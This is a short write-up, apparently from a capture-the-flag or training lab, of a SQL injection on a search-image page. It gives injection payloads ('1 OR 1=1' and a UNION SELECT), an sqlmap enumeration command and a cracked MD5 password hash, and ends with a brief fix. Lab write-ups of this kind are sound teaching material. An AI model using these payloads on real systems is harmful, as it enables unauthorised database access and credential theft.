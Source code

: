 # SQL Injection Image

In the image search page the form perfoms a DB search by id value provided by the client.

## Table of Contents

- [Steps](#Steps)
- [Vulnerabilities](#Vulnerabilities)
- [Ways to secure](#Ways to secure)

### Steps

Proceed to <a href="http://192.168.0.108/?page=searchimg">search image page</a>

In the search field enter then submit:
	1 OR 1=1

Open your terminal

Run reconnaissiance
```bash
	sqlmap "http://192.168.0.108/?page=searchimg&id=1&Submit=Submit#" --tables
```

We want to UNION SELECT to append another select statement

In the search field enter:
	1 OR 1=1 UNION SELECT id, comment FROM list_image

<a href="https://hashes.com/en/decrypt/hash">MD5 decrypt the password</a>
	1928e8083cf461a51303633093573c46 --> albatroz

In your terminal run
```bash
        cd ./Resources

	py sha256encrypt.py albatroz
```

#### Ways to secure
Validate and sanitize client input on the server

